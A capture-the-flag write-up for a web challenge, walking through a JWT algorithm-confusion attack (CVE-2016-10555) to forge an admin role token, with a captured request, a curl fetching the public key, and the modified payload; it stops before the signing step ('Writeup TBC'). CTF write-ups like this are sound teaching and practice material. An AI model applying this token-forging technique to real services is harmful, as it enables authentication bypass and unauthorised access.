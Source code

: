 # Challenge: Unlock Me (Web-1)
Our agents discovered COViD's admin panel! They also stole the credentials minion:banana, but it seems that the user isn't allowed in. Can you find another way?

Website: http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/

## Summary:
The web application was vulnerable to CVE-2016-10555 where the algorithm type is not properly being checked. More can be found here: https://nvd.nist.gov/vuln/detail/CVE-2016-10555.

Relevant CWE:

CWE-287: Improper Authentication (https://cwe.mitre.org/data/definitions/287.html)

## Tools used:
OS - Kali Linux

BurpSuite - to inspect and modify web requests

JSON Web Attacker BurpSuite plugin - helps to automate the attack (https://portswigger.net/bappstore/82d6c60490b540369d6d5d01822bdf61)

## Process:
According to Wikipedia, a JSON Web Token is an Internet standard for creating data with optional signature and/or optional encryption whose payload holds JSON data such as roles and usernames. The tokens are signed either using a private secret or a public/private key, in other words, it is similar to a cookie which carries information about the user.
JSON Web tokens can be easily spotted using the following methods:

1) If the string starts with "eyJhbGci...", it is most likely a JWT token
2) If the string consists of two dots (.), it is most likely a JWT token

On the website I logged into the website using the provided credentials minion:banana. I proxied it forward through Burp Suite. I then get this following request I made 
```````
GET /unlock HTTP/1.1
Host: yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NTI5MTMxfQ.XZD1sFxPkkV9hHtttEwZm9GuY7zcIBeL3bNRq_QEzjXawGtrxUWKfiA4X_KA2Kyb7RCq4b6fjFBGsDCfY28g-WRw0-tRPOU3e1qmn_Uo8HRPS-2ZAR2ObJEGbU-bKiCVLZc9QyZb9UEIb_MBRDjk_w3lR4d1UYi_THx6obMFbqbijV9vRdZqp6NuzwnrE5_Br2XGXuD17w7s1WAQ6Y72yP4IVdKdUz7s-gJgnk8Y5Bed5tcEWwHtKGlLa_oyR6iskCWijHU1tp-p-xyNTbOzSjd_bNF3l59MF0ChwRqDP_wiGfhEEO5xWnVpsw3JMIghVJ6D77UkA19F-yI-KY8qGgKDI71dFgLjI0ITx6qpTB3N-65ow8NYzDpc3ytSQllcAVw_mFBPlaC0vm92al5YqXdDzdyALgFSvS-EpX0pf-QXgt7DhCsZU_aCXfmArC75oVtWwTRTBg_cT5GdPKoEAfOjsB9x7uR1tsKxsV06INoA83_yo9Wi9gGPYjHiMg7XDgSE_3KGq8CJMgIeFpoCSkvJy7C8tbWyA9KDWz9cBENy9ERF2DNggNjwpmx10yKP1IW4VR5nr6NTIMuUnuanfzOKmAVvTx44X-4pzDXnyYbXbu-5XASpPpNfdJh9qfmfysNX1axyzoKSp08kycz8hCnbgZ4t2CCKnLIXzzEgY9E
Connection: close
Cookie: __cfduid=d7dea684ee9d33772602f489a7f40dfca1607085880
If-None-Match: W/"2c-HIo8OazkINs/Y63UTfaXAuuMrWk"
```````
Aha! A JWT token can be found under the Authorization: Bearer component. Go ahead and copy the JWT token into https://jwt.io/ as shown.

![JWT.IO](https://github.com/BunchOfBytes/STF-2020/blob/main/Screenshot%20(8).png)

As seen, there are 3 parts of the token, a header which specifies what JWT token to use, a payload which carries the data about the user to be transmitted and the signature which verifies that the JWT is legit.  Notice that the payload in the above screenshot consists of the object "role":"user", we can try changing this to "role":"admin"
and see if we bypass this admin check.

Moreover, there is CVE-2016-10555 which allows us to change the algorithm type from RS256 to HS256 without the server verifying it and generate a valid signature for it using the public key of the private key used to sign the RS256 token. More information can be found here: https://nvd.nist.gov/vuln/detail/CVE-2016-10555. On the same jwt.io modify 

We can automate this attack using JSON Web Token Attacker, JSON Web Token Attacker contains a suite of tools which can be used to automatically attack a website using JWT Web Token, this is especially helpful for bug bounties where doing the manual method can sometimes be very tedious.

In the HTML of the website we see the comment: 
```````
// TODO: Add client-side verification using public.pem
```````
which verifies that we have to perform CVE-2016-10555. We can obtain the value of the public key
```````
curl http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/public.pem
```````
That gives us the public key
```````
-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEA4Cot1mM0eF5cZUnifKx0
8MJQ59ui9/8DLzWpWWtlPGsB4T9UsaAspndZJafbGFq0v+vGzG+TltJjb1v+tTj8
sqFanc/KWdQZr3WwmuhU95EJ7RRhtEIxTN8Rn1KOKUqZ/Plmf4LrMrMZm66DqaTW
H2my5IRShK0i0YpziT9JEeVJtS/zC+UUdbImrOavjD4PDZv14FLEuePMN0mCNcQ5
z5iSQv5j8npbtvMBbeAKMvYyCeIchjW22Dp/tNi4xfI7CaTyPp0pO3+MZ9vJ8O02
YOC7/+tQX2NdveVuKYEg4XTQ/nmiYSK9DeXyO/EGkQzxZjpLv5ZMN07Nau2xpQoG
1Ip4YfDA5Y/MjA8qDgNN0n/pmBaPBHNvFK6mWJllnuOnLpQHCxZNxBudxTLSoXkq
XQPRKcdZpbv0kjt/ZpwkoXHfQLToJyZQgQXtEHaW36Ko9Xjq3cDWzkSjADMxaq/5
8SZvPUknm3Mv9KN8zYiePYGUl2aLyKumKF++rlh7a6xJgcBcs10bf0yyeRU3NWWb
0pz4dgdrgh2sXrg/U51VhejnNfvfRf+4Cy1QM4QWbKXZk9sLtLpkfiou/ri3YUn3
txIgfYKa7a5tOtBWSRHHlHOmS58Ab51pmSGdjIeCa+WMie0i5reuRb6WJ27jnvJF
G0hytABBbCgeL00ymJK16tUCAwEAAQ==
-----END PUBLIC KEY-----
```````
Now that we have the public key string we can start to perform the attack. Firstly we copy the 2nd portion of the JWT token which is the payload and base64 decode it.
```````
Encoded: eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NTI5MTMxfQ
Decoded: {"username":"minion","role":"user","iat":1607529131}
```````

And change the role to admin and base64 encode it 
```````
Decoded: {"username":"minion","role":"admin","iat":1607529131}
Encoded: eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzUyOTEzMX0=
```````
Now we replace the 2nd portion with the encoded value to obtain our modified JWT token removing the = sign 
```````
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzUyOTEzMX0.XZD1sFxPkkV9hHtttEwZm9GuY7zcIBeL3bNRq_QEzjXawGtrxUWKfiA4X_KA2Kyb7RCq4b6fjFBGsDCfY28g-WRw0-tRPOU3e1qmn_Uo8HRPS-2ZAR2ObJEGbU-bKiCVLZc9QyZb9UEIb_MBRDjk_w3lR4d1UYi_THx6obMFbqbijV9vRdZqp6NuzwnrE5_Br2XGXuD17w7s1WAQ6Y72yP4IVdKdUz7s-gJgnk8Y5Bed5tcEWwHtKGlLa_oyR6iskCWijHU1tp-p-xyNTbOzSjd_bNF3l59MF0ChwRqDP_wiGfhEEO5xWnVpsw3JMIghVJ6D77UkA19F-yI-KY8qGgKDI71dFgLjI0ITx6qpTB3N-65ow8NYzDpc3ytSQllcAVw_mFBPlaC0vm92al5YqXdDzdyALgFSvS-EpX0pf-QXgt7DhCsZU_aCXfmArC75oVtWwTRTBg_cT5GdPKoEAfOjsB9x7uR1tsKxsV06INoA83_yo9Wi9gGPYjHiMg7XDgSE_3KGq8CJMgIeFpoCSkvJy7C8tbWyA9KDWz9cBENy9ERF2DNggNjwpmx10yKP1IW4VR5nr6NTIMuUnuanfzOKmAVvTx44X-4pzDXnyYbXbu-5XASpPpNfdJh9qfmfysNX1axyzoKSp08kycz8hCnbgZ4t2CCKnLIXzzEgY9E
```````

To modify the JWT token, forward to request from earlier to Repeater and then to JOSEPH once you have downloaded the plugin (https://portswigger.net/bappstore/82d6c60490b540369d6d5d01822bdf61) from the BAppStore.

Writeup TBC

